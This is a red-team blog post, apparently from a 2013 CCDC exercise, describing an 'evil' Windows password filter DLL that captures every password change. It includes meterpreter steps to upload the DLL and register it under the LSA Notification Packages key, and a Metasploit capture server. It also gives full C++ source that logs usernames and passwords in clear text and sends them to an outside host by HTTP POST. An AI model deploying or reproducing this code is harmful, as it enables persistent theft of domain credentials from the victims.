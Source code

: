 = "Stealing passwords every time they change"
:hp-tags: passwords, releases

[Password Filters [0]]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx") are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those available by default in Active Directory Group Policy.  It is also fairly documented on how to Install and [Register Password Filters [1]](http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx). Basically what it boils down to is updating a registry key here: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages`

with the name of a DLL (without the extension) that you place in Windows\System32\

For [National CCDC](http://www.nationalccdc.org/) earlier this year (2013), I created an installer and "evil pass filter" that basically installed itself as a password filter and any time any passwords changed it would store the change to a log file locally to the victim (in clear text) as well as issue an HTTP basic auth POST to a server I own with the username and password.

The full code can be found below. I'll leave the compiling up to you but basically its slamming the code in Visual Studio, telling it its a DLL, and clicking build for the architecture you are targeting (Make sure to use the Internet Open access settings that make the most sense for the environment you are using this in [[2](http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx)].

So lets walk the exploitation:

First, you have to be admin or system, as this is more of a persistence method than anything.

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

Next, we upload the evilpassfilter.dll to Sytem32:

    meterpreter > pwd
    C:\Windows\system32
    meterpreter > upload /tmp/evilpassfilter.dll .
    [*] uploading  : /tmp/evilpassfilter.dll -> .
    [*] uploaded   : /tmp/evilpassfilter.dll -> .\evilpassfilter.dll

Then we need to query what is already in the notification packages list:

    meterpreter > reg queryval -k HKLM\\System\\CurrentControlSet\\Control\\Lsa -v "Notification Packages"
    Key: HKLM\System\CurrentcontrolSet\Control\Lsa
    Name: Notification Packages
    Type:
    Data: sceclirassfm

What you can't see here since Metasploit isn't showing the line breaks is that there are two there by default:

    scecli
    rassfm

We need to add ours to the end of this list, unfortunately at the current point of time its impossible to do directly from the meterpreter command line (as far as I know). So we need to drop a .reg file and manually import it. Easiest way to do that is to add your "evilpassfilter" string as well as the ones on the victim to a VM you have and export it. Should look like this:

Once we have our file, we upload and import it using reg command:

    meterpreter > upload importme.reg .
    [*] uploading  : importme.reg -> .
    [*] uploaded   : importme.reg -> .\importme.reg
    meterpreter > execute -H -f regedit.exe -a '/s importme.reg'
    Process 2628 created.
    meterpreter > 

Double check our work:

    meterpreter > reg queryval -k HKLM\\System\\CurrentcontrolSet\\Control\\Lsa -v "Notification Packages"
    Key: HKLM\System\CurrentcontrolSet\Control\Lsa
    Name: Notification Packages
    Type:
    Data: sceclirnrassfmrnevilpassfilter 

Its there, w00t! But it doesn't do anything until a reboot happens :(. Lets just force that to happen (not the most stealthy thing to do):

    meterpreter > reboot
    Rebooting...

While thats going on, lets set up the server to catch the basic auth.

    msf exploit(psexec) > use auxiliary/server/capture/http_basic
    msf auxiliary(http_basic) > set URIPATH /
    URIPATH => /
    msf auxiliary(http_basic) > run
    [*] Auxiliary module execution completed
    msf auxiliary(http_basic) >
    [*] Listening on 0.0.0.0:80...
    [*] Using URL: http://0.0.0.0:80/
    [*]  Local IP: http://192.168.92.106:80/
    [*] Server started.
    msf auxiliary(http_basic) > 

Then we wait for a password to be changed:

    msf auxiliary(http_basic) >
    [*] 192.168.92.106   http_basic - Sending 401 to client
    [+] 192.168.92.106 - Credential collected: "jack:ASDqwe123" => /

No matter how complex their password is and without having a shell on the box anymore:

    msf auxiliary(http_basic) >
    [+] 192.168.92.106 - Credential collected: "jack:a?'z_a4#RRK(mvQEsyQ8l`,JR.pes<;6#0$puQ%Q&,@ZwY(T@p" => /

This works from Windows 2000, XP all the way up to Windows 8 & 2012.

Ok, but how often are local password changed? Maybe not that often, but guess what happens when a password filter is put on a domain controller. Every password changed by that DC is "verified" by your evil password filter.

Oh and what does that log file we talked about earlier on the victim look like if for some reason they block that IP you're getting your authentication to? (You would have to find a way to get back on that system, or make it available via a share or otherwise)

    InitializeChangeNotify()
    JackJohnson:ASDqwe123
    JackJohnson:a?'z_a4#RRK(mvQEsyQ8l`,JR.pes<;6#0$puQ%Q&,@ZwY(T@p

This attack supports a larger character set than most banks ;-)

* [0] [http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721882(v=vs.85).aspx")
* [1] [http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/ms721766(v=vs.85).aspx")
* [2] [http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx]("http://msdn.microsoft.com/en-us/library/windows/desktop/aa385096(v=vs.85).aspx")

Full code:

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

void writeToLog(const char* szString)
{
    FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
    if (NULL == pFile)
    {
        return;
    }
    fprintf(pFile, "%s\r\n", szString);
    fclose(pFile);
    return;
}



// Default DllMain implementation
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
                     )
{
    OutputDebugString(L"DllMain");
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}

BOOLEAN __stdcall InitializeChangeNotify(void)
{
    OutputDebugString(L"InitializeChangeNotify");
    writeToLog("InitializeChangeNotify()");
    return TRUE;
}

BOOLEAN __stdcall PasswordFilter(
    PUNICODE_STRING AccountName,
    PUNICODE_STRING FullName,
    PUNICODE_STRING Password,
    BOOLEAN SetOperation )
{
    OutputDebugString(L"PasswordFilter");
    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(
    PUNICODE_STRING UserName,
    ULONG RelativeId,
    PUNICODE_STRING NewPassword )
{
  FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
  //HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);
	HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
	HINTERNET hSession = InternetConnect(hInternet,L"172.16.10.1",80,NULL,NULL,INTERNET_SERVICE_HTTP ,0,0);
	HINTERNET hReq = HttpOpenRequest(hSession,L"POST",L"/",NULL,NULL,NULL,0,0);
	char* pBuf="SomeData";



	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
    {
        return;
    }
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer,NewPassword->Buffer);
  fclose(pFile);
	InternetSetOption(hSession,INTERNET_OPTION_USERNAME,UserName->Buffer,UserName->Length/2);
	InternetSetOption(hSession,INTERNET_OPTION_PASSWORD,NewPassword->Buffer,NewPassword->Length/2);
	HttpSendRequest(hReq,NULL,0,pBuf,strlen(pBuf));

    return 0;
}
```